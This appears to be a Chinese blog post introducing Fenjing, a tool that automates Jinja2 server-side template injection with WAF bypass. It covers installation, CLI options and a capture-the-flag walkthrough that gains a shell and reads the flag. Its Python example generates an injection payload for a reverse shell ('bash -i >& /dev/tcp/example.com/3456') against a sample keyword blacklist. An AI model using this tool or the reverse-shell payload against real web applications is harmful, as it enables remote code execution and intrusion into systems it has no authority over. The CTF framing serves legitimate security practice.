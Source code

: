 ```yaml
---
title: fenjing(焚靖)——jinja2 SSTI一把梭
date: 2023-05-11 18:36:24
author: yixinBC
tags:
---
```


> 焚靖是一个针对Jinja2 SSTI的命令行脚本，具有强大的自动绕过WAF功能

## 安装

### 使用pip（最省事）

```shell
pip install fenjing
python -m fenjing scan --url 'http://xxx/'
```

### 也可下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing scan --url 'http://xxx/'
```

### 还可以直接下载源码

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
```

下载后可以选择直接使用（先确保用pip安装完依赖）

```shell
python -m pip install -r requirements.txt
```

也可以手动构建一个docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing scan --url 'http://xxx/'
```

## 使用

```shell
$ python -m fenjing --help
Usage: python -m fenjing [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  crack  攻击指定的表单
  scan   扫描指定的网站
$ python -m fenjing crack --help
Usage: python -m fenjing crack [OPTIONS]

  攻击指定的表单

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.
$ python -m fenjing scan --help
Usage: python -m fenjing scan [OPTIONS]

  扫描指定的网站

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.
```

也可做为一个python模块集成进脚本中使用

```python
from fenjing import exec_cmd_payload

import logging

logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)
```

## 支持的绕过

- `'`和`"`的绕过
- 绝大部分关键字的绕过
- 自然数的绕过
- 下划线`_`
- `+`和`-`
- `~`
- `[`下标访问的绕过
- `{{}}`标签的绕过

## 使用示例

[[GDOUCTF 2023]\<ez_ze\>](<https://www.nssctf.cn/problem/3745>)
打开题目发现是一个使用POST提交表单的网页，检查响应头的`Sever`字段，发现是`Werkzeug/2.2.3 Python/3.8.16`，所以应该是一个flask程序，考虑SSTI。
使用一些常见的jinja2 SSTI payload，发现都会被WAF给过滤。
尝试焚靖一把梭：

```shell
$ python -m fenjing crack -u http://node1.anna.nssctf.cn:28140/get_flag -i name
    ____             _ _
   / __/__  ____    (_|_)___  ____ _
  / /_/ _ \/ __ \  / / / __ \/ __ `/
 / __/  __/ / / / / / / / / / /_/ /
/_/  \___/_/ /_/_/ /_/_/ /_/\__, /
              /___/        /____/

...

INFO:[cli] | Use Ctrl+D to exit.
$>> cat /flag

...

Hello, $ NSSCTF{82377006-eb0f-4ebd-9a9f-ba6ad3ba7c17}
 $!
$>>
```

可见焚靖的WAF绕过能力还是非常强大的

## 参考资料

[Marven11/Fenjing: 一个类似SQLMap的Jinja2 SSTI利用脚本 | A SQLMap-like Jinja2 SSTI cracker](https://github.com/Marven11/Fenjing)（官方GitHub页面）

## 想找一个通用的SSTI payload生成器？

可以去尝试一下[tplmap](https://github.com/epinna/tplmap)
